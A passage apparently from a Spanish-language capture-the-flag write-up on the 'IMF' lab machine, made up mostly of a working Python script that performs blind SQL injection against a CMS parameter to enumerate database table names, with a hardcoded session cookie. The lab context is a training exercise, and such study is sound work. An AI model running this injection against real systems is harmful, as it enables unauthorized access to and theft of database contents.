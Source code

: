 - Data:

    ![](/assets/images/IMF/Pasted-image-20240605131100.png)

La base de datos de interés es ‘admin’. A continuación, otro script en Python para enumerar las tablas:

```
#!/usr/bin/python3

from pwn import *
import requests, signal, sys, time, string

def ctrl_c(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, ctrl_c)

# Variables globales
characters = string.ascii_lowercase + "_," + string.digits
main_url = "http://192.168.3.227/imfadministrator/cms.php?pagename="

def sqli():

    header = {
        'Cookie': 'PHPSESSID=a7rq935a1b6pmjphdgnkhn5kh2'
    }

    data = ""

    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de inyección SQL")

    time.sleep(2)

    p2 = log.progress("Data")

    for position in range(1, 100):
        for character in characters:

            sqli_url = main_url + "home' or substring((select group_concat(table_name) from information_schema.tables where table_schema='admin'),%d,1)='%s" % (position, character)

            r = requests.get(sqli_url, headers=header)

            if "Welcome to the IMF Administration." not in r.text:
                data += character
                p2.status(data)
                break

    p1.success("Ataque de inyección SQL finalizado exitosamente")
    p2.success(data)

if __name__ == '__main__':

    sqli()
```

